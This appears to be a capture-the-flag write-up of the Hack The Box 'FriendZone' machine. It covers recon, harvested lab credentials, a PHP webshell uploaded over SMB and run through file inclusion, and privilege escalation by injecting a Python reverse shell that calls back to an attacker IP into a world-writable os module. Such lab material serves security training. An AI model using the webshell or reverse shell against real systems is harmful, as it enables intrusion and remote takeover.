


**Start 08:37 26-03-2025**

---
```
Scope:
10.10.10.123
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -p- friendzone -sT -T5 --min-rate=5000 -Pn -vvvv

PORT    STATE SERVICE     REASON  VERSION
21/tcp  open  ftp         syn-ack vsftpd 3.0.3
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      syn-ack ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    syn-ack Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/localityName=AMMAN/emailAddress=haha@friendzone.red/organizationalUnitName=CODERED
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/localityName=AMMAN/emailAddress=haha@friendzone.red/organizationalUnitName=CODERED
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2025-03-22T20:37:37+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   FRIENDZONE<00>       Flags: <unique><active>
|   FRIENDZONE<03>       Flags: <unique><active>
|   FRIENDZONE<20>       Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 60332/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12958/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 37865/udp): CLEAN (Failed to receive data)
|   Check 4 (port 64027/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-03-22T18:37:38
|_  start_date: N/A
|_clock-skew: mean: -39m58s, deviation: 1h09m16s, median: 0s
```

I notice that port `53` is open, maybe we'll have to do some DNS enumeration.

## 21/TCP - FTP


We might need some creds first.

## 445/TCP - SMB


We notice that we have anon access and that **Development** has both `READ` and `WRITE` permissions, while **general** has `READ` permissions.

Let's check it out.


Empty


Nice, let's check these out.


```
admin
WORKWORKHhallelujah@#
```

I tried spraying these creds against other ports, but had no luck.

I decided to check out the web ports.

## 80/TCP - HTTP


It looks like they keep giving us not so subtle hints about a zone transfer. I'll finish my enumeration first.

## 443/TCP - HTTPS


Other than that, `feroxbuster` yielded no results on either web port.

Time for some DNS action.

## 53/TCP - DNS


We got some new subdomains, and they all appear to be on the same address. Let's add them to our `/etc/hosts` list.
 
I then tried to check out the sites of the subdomains, port `80` looked the same, however port `443` showed a different page for the **administrator1.friendzone.red** subdomain.

## Subdomain


We can now HIGHLY LIKELY use the previously found credentials to log in.


Heading to `/dashboard.php` we see this:


### Gobuster

I went ahead and launched `gobuster` in order to enumerate the directories further.


This one stood out but other than that it didn't have any interesting info.

I then went back to the `/dashboard.php` page and found that I could play around with the variables in the url link:


Maybe if I can create a webshell and put it inside the `pagename=` variable I could get it to run?

### Webshell

I used the following `webshell.php` file:

```php
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            padding: 10px;
            border-radius: 5px;
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```

And used `put webshell.php` on the smb server:


I then had to find out the location where I had put these files so I used `nmap nse` for it:

```bash
sudo nmap -sC -sV -p445 friendzone.red -sT -T5 --min-rate=5000 -Pn -vvvv --script smb-enum-shares.nse 

PORT    STATE SERVICE     REASON  VERSION
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: FRIENDZONE

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE

<SNIP>
```

It appears to be inside the `/etc/Development` folder. Let's try to leverage directory traversal.


Awesome, it worked! Let's use the webshell.


# Foothold

Our webshell works, time to get a full reverse shell.


## Busybox, my beloved

When all other payloads fail, I know I can rely on you `busybox`:




Let's get the `user.txt` flag.

### user.txt


## Lateral Movement

I started doing some enum and stumbled upon the following:


```
friend
Agpyu12!0.213$
```

We can try logging into `ssh` using these creds.


It worked! Let's get to it.

# Privilege Escalation

## Root Process 

I went ahead and transfered over `pspy32` and ran it in order to check out the processes running:




I let it run for a little while.


There's a process running under *root* in the `/opt` directory. Let's check it out.


Unfortunately we aren't allowed to modify the script, or we could've easily got *root*.

In order to solve this I decided to also download over `linpeas.sh` and do some more enumeration, perhaps there is another way?


## Python Package Hijacking

We notice that the `os` package that our script is importing, is world writable! This means we could modify it, and upon import it should still fire.


It worked, let's write our payload.

For this I used the normal `Python #2` reverse shell from [revshells.com](https://www.revshells.com/):


But since we are already *inside* the `os` file, I don't have to import it.

```python
import socket,subprocess,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)

pty.spawn("/bin/bash")
s.close()
```


Now it's time to start our listener and wait.


### root.txt


---

**Finished 11:18 26-03-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

#DNS #smb #pspy 
